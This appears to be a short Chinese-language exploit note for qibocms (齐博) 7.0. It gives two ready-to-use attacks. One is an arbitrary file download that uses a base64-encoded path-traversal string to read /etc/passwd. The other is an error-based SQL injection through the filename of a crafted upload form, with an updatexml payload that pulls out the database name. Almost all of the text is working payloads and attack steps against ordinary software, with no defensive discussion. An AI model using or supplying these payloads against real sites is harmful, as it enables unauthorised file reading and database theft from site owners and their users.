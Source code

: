### qibocms（齐博）

```
版本信息：7.0
```

#### 任意文件下载

读取/etc/passwd，为了确保能跨越到路径读取到目标文件，可以多加几个../../../

```
/do/job.php?job=download&url=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

把要下载的文件进行base64编码

![Snipaste_2022-10-20_14-33-03.jpg](images/Snipaste_2022-10-20_14-33-03.jpg)

#### 报错注入

注册一个会员，然后构造一个上传表单

```
<form action="http://192.168.81.116:30002/member/comment.php?job=edit" method="POST" enctype="multipart/form-data">
<input type="file" name="cidDB" value="test" style="350px;"/><br/> 
<input type="submit" value="确定"/> </form>
```

随意上传一个文件然后抓包，将URL里的edit修改为del，注入点在文件名处

![Snipaste_2022-10-20_14-48-36.jpg](images/Snipaste_2022-10-20_14-48-36.jpg)

获取当前数据库名称

```
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

